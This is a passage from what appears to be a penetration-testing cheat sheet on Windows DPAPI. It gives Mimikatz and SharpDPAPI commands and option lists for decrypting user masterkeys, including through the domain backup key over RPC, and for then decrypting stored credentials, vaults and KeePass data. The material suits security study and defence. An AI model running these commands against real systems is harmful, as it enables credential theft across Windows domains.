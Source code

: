 - **Access masterkeys**:

Decrypt a masterkey of a user requesting the **domain backup key** using RPC:
```bash
# Mimikatz
dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\SID\GUID" /rpc

# SharpDPAPI
SharpDPAPI.exe masterkeys /rpc
```

The **SharpDPAPI** tool also supports these arguments for masterkey decryption (note how it's possible to use `/rpc` to get the domains backup key,  `/password` to use a plaintext password, or `/pvk` to specify a DPAPI domain private key file...):

```
/target:FILE/folder     -   triage a specific masterkey, or a folder full of masterkeys (otherwise triage local masterkeys)
/pvk:BASE64...          -   use a base64'ed DPAPI domain private key file to first decrypt reachable user masterkeys
/pvk:key.pvk            -   use a DPAPI domain private key file to first decrypt reachable user masterkeys
/password:X             -   decrypt the target user's masterkeys using a plaintext password (works remotely)
/ntlm:X                 -   decrypt the target user's masterkeys using a NTLM hash (works remotely)
/credkey:X              -   decrypt the target user's masterkeys using a DPAPI credkey (domain or local SHA1, works remotely)
/rpc                    -   decrypt the target user's masterkeys by asking domain controller to do so
/server:SERVER          -   triage a remote server, assuming admin access
/hashes                 -   output usermasterkey file 'hashes' in JTR/Hashcat format (no decryption)
```

- **Decrypt data using a masterkey**:

```bash
# Mimikatz
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>

# SharpDPAPI
SharpDPAPI.exe /target:<FILE/folder> /ntlm:<NTLM_HASH>
```

The **SharpDPAPI** tool also supports these arguments for `credentials|vaults|rdg|keepass|triage|blob|ps` decryption (note how it's possible to use `/rpc` to get the domains backup key, `/password` to use a plaintext password, `/pvk` to specify a DPAPI domain private key file, `/unprotect` to use current users session...):

```
Decryption:
/unprotect          -   force use of CryptUnprotectData() for 'ps', 'rdg', or 'blob' commands
/pvk:BASE64...      -   use a base64'ed DPAPI domain private key file to first decrypt reachable user masterkeys
/pvk:key.pvk        -   use a DPAPI domain private key file to first decrypt reachable user masterkeys
/password:X         -   decrypt the target user's masterkeys using a plaintext password (works remotely)
/ntlm:X             -   decrypt the target user's masterkeys using a NTLM hash (works remotely)
/credkey:X          -   decrypt the target user's masterkeys using a DPAPI credkey (domain or local SHA1, works remotely)
/rpc                -   decrypt the target user's masterkeys by asking domain controller to do so
GUID1:SHA1 ...      -   use a one or more GUID:SHA1 masterkeys for decryption
/mkfile:FILE        -   use a file of one or more GUID:SHA1 masterkeys for decryption

Targeting:
/target:FILE/folder -   triage a specific 'Credentials','.rdg|RDCMan.settings', 'blob', or 'ps' file location, or 'Vault' folder
```
